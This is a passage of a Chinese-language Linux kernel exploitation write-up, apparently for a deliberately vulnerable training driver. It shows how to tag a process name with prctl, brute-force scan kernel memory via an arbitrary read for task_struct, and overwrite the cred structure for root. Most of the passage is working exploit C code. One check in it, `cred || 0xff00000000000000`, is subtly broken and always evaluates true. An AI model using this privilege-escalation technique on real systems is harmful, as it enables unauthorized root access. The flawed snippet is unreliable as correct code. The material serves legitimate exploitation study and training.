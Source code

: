 **感慨**：task_struct 这么大，居然能找到这个结构，还能找到 prctl 能修改该字符串，tql。

```
PR_SET_NAME (since Linux 2.6.9)
    设置调用线程的name，name由arg2指定，长度最多16字节，包含终止符。也可以使用pthread_setname_np(3)设置该name，用pthread_getname_np(3)获得name。


```

**方法**：设定该值作为标记，利用任意读找到该字符串，即可找到 task_structure，进而找到 cred 结构体，再利用任意写提权。

**确定爆破范围**：task_structure 是通过调用 kmem_cache_alloc_node() 分配的，所以 kmem_cache_alloc_node 应该存在内核的动态分配区域。(\kernel\fork.c 140)。[kernel 内存映射](https://links.jianshu.com/go?to=https%3A%2F%2Fjin-yang.github.io%2Fpost%2Fkernel-memory-virtual-physical-map.html)

```
static inline struct task_struct *alloc_task_struct_node(int node)
{
    return kmem_cache_alloc_node(task_struct_cachep, GFP_KERNEL, node);
}


```

根据内存映射图，爆破范围应该在 0xffff880000000000~0xffffc80000000000。

##### （3）整合利用步骤

完整代码见`exp_cred.c`。

```
//  爆破出 cred地址
    i_args.size=0x100;
    ioctl(fd, ARBITRARY_RW_INIT, &i_args);
    rello_args.grow=0;
    rello_args.size=0x100+1;
    ioctl(fd,ARBITRARY_RW_REALLOC,&rello_args);
    puts("[+] We can read and write any memory! [+]");
    for (size_t addr=START_ADDR; addr<END_ADDR; addr+=0x1000)
    {
        read_mem(fd,addr,buf,0x1000);
        result=memmem(buf,0x1000,target,16);
        if (result)
        {
            printf("[+] Find try2findmesauce at : %p\n",result);
            cred=*(size_t *)(result-0x8);
            real_cred=*(size_t *)(result-0x10);
            if ((cred || 0xff00000000000000) && (real_cred == cred))
            {
                target_addr=addr+result-(long int)(buf);
                printf("[+] found task_struct 0x%x\n",target_addr);
                printf("[+] found cred 0x%lx\n",real_cred);
                break;
            }
        }
    }
    if (result==0)
    {
        puts("[-] not found, try again! \n");
        exit(-1);
    }
    // 修改cred
    memset((char *)root_cred,0,28);
    write_mem(fd,cred,root_cred,28);


```